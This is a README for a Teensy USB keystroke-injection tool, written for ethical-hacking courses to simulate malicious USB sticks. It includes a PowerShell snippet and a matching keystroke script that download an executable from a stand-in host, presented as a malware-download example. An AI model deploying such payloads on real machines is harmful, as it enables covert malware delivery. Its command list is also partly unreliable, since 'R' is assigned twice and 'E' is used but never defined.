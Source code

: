 # teensy
Tools and projects all around the Teensy USB Development Board

## teensy_keyboard

Based on the Keyboard-Library and example from the Teensy Homepage:
https://www.pjrc.com/teensy/index.html

This program allows you to define a very simple string which is parsed and
sent as Keystrokes to the Computer after the Teensy gets pluged in.

I created this to simulate Malicious USB-Sticks in Ethical-Hackin courses
and presentations withing [ThinkArena](http://www.denkarena.ch/)

### Commands and Format

The String can be of Keystrokes, Strings, Pause, Return and others:
* The `K:` is used to simulate a KeyStroke with a modifier key
** Modifiers are A(al), C(trl), W(in), S(hift), N(one)
** To send a single space, use the `SP` with the `N` modifier: `K: N SP`
* The `S:` is used to write a string
* The `W:` is used to wait the given amount of milliseconds before the next line is processed
* The `X` is used to send a ESC Keystroke
* The `R` is used to send the RETURN/ENTER key
* The `T` is used to send the TABULATOR key
* The `U` is used to send the ARROW-UP key
* The `D` is used to send the ARROW-DOWN key
* The `L` is used to send the ARROW-LEFT key
* The `R` is used to send the ARROW-RIGHT key

For better readability you can use a doublepoint to sepaarte the command character from the following string.

**Example**

Open Notepad and write something:
```
K WIN R
W 50
S notepad
W 200
S You've just inserted a malicious USB-Stick.
E
S Always take care about what you're connection
E
S Cheers...
E
```

### Downlaod in Windows

Under Windows you can use something like this on Windows to download Maleware in a Powershell:

```Batchfile
$client = New-Object System.Net.WebClient
$client.DownloadFile("http://www.example.com/file.exe", "C:\")
```

This would result in a String like this:
```
K: WIN R
W: 50
S: powershell
E:
S: $client = New-Object System.Net.WebClient
E:
S: $client.DownloadFile("http://www.example.com/file.exe", "C:\")
E:
```

